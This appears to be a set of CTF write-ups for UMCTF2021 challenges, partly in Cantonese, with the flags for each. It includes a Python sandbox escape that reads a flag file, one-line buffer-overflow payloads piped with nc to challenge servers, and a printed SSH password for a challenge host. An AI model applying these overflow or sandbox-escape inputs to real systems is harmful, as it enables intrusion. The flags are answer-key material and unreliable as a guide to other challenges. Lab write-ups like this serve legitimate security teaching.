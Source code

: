 # UMCTF Competition Noob's Hackathon 公開組

----

# Miscellaneous - UMCTF2021 - Macow

- Write-Up Author: **Louis Lou**

- Flag: **MOCSCTF{1_4m_l1v1n6_1n_534c_p41_v4n_p4rk_n0w....}**


## **Question:**
>**Macow**</br>
>Author: **RB916120**

>do you remember macow??</br>
>flag in the file [http://bit.ly/2N8960t](http://bit.ly/2N8960t)


## **write-up:**

>首先 unzip file，然後利用 IDE Editor Search “**CTF**”，另一部分通過 Search "**}**" 找到。
> 
> 

----

# Miscellaneous - UMCTF2021 - snakeCage

- Write-Up Author: **Louis Lou**

- Flag: **MOCSCTF{ssssssnake_easy_peasy}**


## **Question:**
>**snakeCage**</br>
>Author: **RB916120**

>can you escape from snake cage?</br>
>nc 13.75.78.108 38001


## **write-up:**

>**Step 1：**
>import os; print(os.listdir('.'));</br>
>會見到fs有個叫flag的檔

>**Step 2：**
>再用 open('flag').read() 就會知道個flag</br>
>import os; print(open('flag').read());
> 
> 

----

# Miscellaneous - UMCTF2021 - takeit

- Write-Up Author: **Louis Lou**

- Flag: **MOCSCTF{55h_15_!_700_h4rd!!!!!!!!!!!!!!!}**


## **Question:**
>**takeit**</br>
>Author: **RB916120**

>i put the flag on the screen, take it if you can end the session</br>
>
>ssh eofffff@13.75.78.108 -p 38004 (password: DthBqhs8n)


## **write-up:**

>手機拍片逐格睇
> 
> 

----

# PWN - UMCTF2021 - babycoffee-1

- Write-Up Author: **Louis Lou**

- Flag: **MOCSCTF{d0n7_l37_7h3m_pu7_700_much_c0ff33_w1ll_0v3rfl0w3d!!}**


## **Question:**
>**babycoffee-1**</br>
>Author: **RB916120**

>can you overflow the coffee?</br>
>
>nc 52.175.52.175 39001


## **write-up:**

>python2 -c "print 'A' * 100 + '\x44'" |  nc 52.175.52.175 39001
> 
>

----

# PWN - UMCTF2021 - babycoffee-2

- Write-Up Author: **Louis Lou**

- Flag: **MOCSCTF{d0_y0u_3nj0y_7h15_c7f_3v3n7?}**


## **Question:**
>**babycoffee-2**</br>
>Author: **RB916120**

>i would like to order a coffee..</br>
>
>nc 52.175.52.175 39002


## **write-up:**

>python2 -c "print 'A' * 32 + '\xBE\xBA\xFE\xCA'" | nc 52.175.52.175 39002
> 
>

----

# Forensic - UMCTF2021 - hide

- Write-Up Author: **Louis Lou**

- Flag: **mocsctf{c@n_y0u_f1nd_0ur_53cr3t?!}**


## **Question:**
>**hide**</br>
>Author: **TeruLei**

>hi,hi,hide in a pic~</br>
>


## **write-up:**

>**Step 1.**
>unzip hide.zip and goto onlinehexeditor search “ctf” find first part.</br>
>
>**Step 2.**
>use https://stylesuxx.github.io/steganography/ find another part.</br>
>
> 
